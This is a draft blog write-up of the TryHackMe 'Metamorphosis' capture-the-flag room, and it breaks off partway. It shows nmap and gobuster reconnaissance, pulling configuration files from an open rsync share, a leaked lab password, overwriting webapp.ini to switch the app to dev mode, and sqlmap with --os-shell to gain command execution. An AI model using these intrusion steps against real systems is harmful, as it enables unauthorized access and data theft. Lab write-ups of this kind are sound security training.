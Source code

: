 ```yaml
---
title: "Tryhackme Metamorphosis"
date: 2021-08-16T15:55:27+05:30
draft: true
toc: false
image: ""
tags: []
categories: []
---
```

## Overview


##Inital Recon

First we start with the basic nmap scan 

```bash
root@kali:~/tryhackme/metamorphosis#nmap -sC -sV  10.10.97.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 11:32 IST
Nmap scan report for 10.10.97.133 (10.10.97.133)
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 13s, deviation: 0s, median: 13s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-12T06:03:04+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T06:03:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds

```

##Gobuster

```bash

root@kali:~/tryhackme/metamorphosis/conf#gobuster dir -u 10.10.97.133 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.97.133
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/08/12 11:04:29 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 10818]
/admin                (Status: 301) [Size: 312] [--> http://10.10.97.133/admin/]
/inde.html            (Status: 200) [Size: 10918]                               
Progress: 56672 / 882244 (6.42%)               

```

##Visting Webpage

```bash
http://10.10.97.133/admin

```

<img style="border:2px solid black" src="/images/My_New_Hugo_Site.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>


Viewing `source code` 

<img style="border:2px solid black" src="/images/My_New_Hugo_Site.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>

##Rsync Enumeration

We have port 873 running which is `Rsync` you can read more about this here[hacktricks.xyz/pentesting/873-pentesting-rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

```bash
rsync -rdt rsync://10.10.38.244:873

we get | Conf            All Confs |

```
Listing content of `Conf`

```bash

rsync -rdt rsync://10.10.38.244:873/Conf
drwxrwxrwx          4,096 2021/04/11 01:33:08 .
-rw-r--r--          4,620 2021/04/10 01:31:22 access.conf
-rw-r--r--          1,341 2021/04/10 01:26:12 bluezone.ini
-rw-r--r--          2,969 2021/04/10 01:32:24 debconf.conf
-rw-r--r--            332 2021/04/10 01:31:38 ldap.conf
-rw-r--r--         94,404 2021/04/10 01:51:57 lvm.conf
-rw-r--r--          9,005 2021/04/10 01:28:40 mysql.ini
-rw-r--r--         70,207 2021/04/10 01:26:56 php.ini
-rw-r--r--            320 2021/04/10 01:33:16 ports.conf
-rw-r--r--            589 2021/04/10 01:31:07 resolv.conf
-rw-r--r--             29 2021/04/10 01:32:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/10 01:30:59 smb.conf
-rw-rw-r--             72 2021/04/11 01:33:06 webapp.ini

```
Downloading `Conf files` into local machine

```bash
rsync -av rsync://10.10.38.244:873/Conf ./conf

```

Reading all the files we got webapp.ini file 

```bash

cat webapp.ini 
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
````

The env variable is set to `prod`  .... change this to `dev` (for development)and uploading back the new webapp.ini file to server.

```bash

rsync -av webapp.ini rsync://10.10.101.93:873/Conf/webapp.ini  

```

Accessing the admin page again  `http://10.10.101.93/admin/`


<img style="border:2px solid black" src="/images/My_New_Hugo_Site.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
 
Use `brupsuite` and saving the request as `req.txt` file

##SQLmap

use sqlmap `batch mode` so that it doesn't ask for inputs and `os-shell` to get the shell.
```bash
sqlmap -r req.txt --level 3 --risk 3 --batch --os-shell

```


we get permission denied when try to run these command ..
and it is confirm the tcp dump was running using linpeas..

